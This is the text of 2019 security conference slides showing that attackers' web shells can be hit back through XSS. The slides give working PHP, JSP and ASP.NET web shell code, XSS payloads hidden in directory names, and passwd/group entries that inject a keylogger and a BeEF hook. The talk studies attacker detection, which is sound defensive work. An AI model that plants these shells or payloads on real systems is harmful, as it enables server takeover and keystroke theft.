

Lazy Red
When hunter becomes the hunted
Vlatko Kosturjak (@k0st), BalCCon 2k19, 14th of September, 2019
Agenda
- Introduction
- Vulnerabilites
- Exploiting vulnerabilities
- Legality
- Summary
- Questions and answers
30 minutes
About me
- CTO at Diverto
- We're hiring
- red/blue
- Open source (security) developer
- Contributed to many existing...
- Authored own https://github.com/kost
Anyone used web shell?
-

- fuzzdb
Typical usage
- Usually placed on exploited applications/server
PHP?
<?
?>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?
if($_GET['cmd']) {
system($_GET['cmd']);
}
?>
</pre>
</BODY></HTML>
JSP?
<FORM METHOD=GET ACTION='cmdjsp.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) {
output += s;
}
}
catch(IOException e) {
e.printStackTrace();
}
}
%>
<pre>
<%=output %>
</pre>
Even smallest ones?
<?=`$_GET[1]`?>
<%@Page Language=”C#”%><%var p=new System.Diagnostics.Process{StartInfo={FileName=Request[“c”],UseShellExecute=false,RedirectStandardOutput=true}};p.Start();%><%=p.StandardOutput.ReadToEnd()%>
- Executing standard shell on Linux
- Executing standard shell on Windows
- Shell on Windows - HTML source
- Shell on Windows - HTML inspect
- HTML tag - dir
Hmm..that means?
- I can insert any HTML tag?
- Just need to make it filename or dirname
- Filesystem issues
- Slash character "/"
- HTML ending and protocol specification)
- You cannot specify (https:// or //my.evil.com/blah)
Is there any HTML tag which does not have to end with "/"?
IMG comes to rescue
mkdir ' '
'
mkdir ' '
'
- Displaying images
Executing Javascript
mkdir '<img src="" onerror="alert(1)">'
- XSS on web shell
/etc/group
[..]
nobody:x:65534:
www-data<script src="/shell/key/keylogger.js"></script>:x:82:apache
apache:x:101:apache
[..]
- Stealthy keyboard sniffing
/etc/passwd
[..]
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server<script src="http://127.0.0.1:3000/hook.js"></script>:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
[..]
- Stealthy beef is running
- Beef console Panel
Legal issues
- Not a lawyer
- It depends...
- Local laws and regulations
- Issue
- Basically exploiting vulnerability in attacker shell
- Drawing the line
- Redirecting to browser pwn?
How to fix it
- Standard fixing of XSS
- Summary
- Escape your HTML before displaying the command output
When it will not work?
- When attacker disables javascript?
- HTML tag IMG will still work!
> curl 'http://127.0.0.1/shell/shell.php?cmd=ls+%2F'
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<img src="badboy.jpg">
app
bin
dev
etc
home
[..]
Summary
- is it 0-day in webshells?
- "Only" XSS
- If you're pentester/red teamer
- Fix your webshells
- If you're app developer/blue teamer
- Interesting way to detect attacker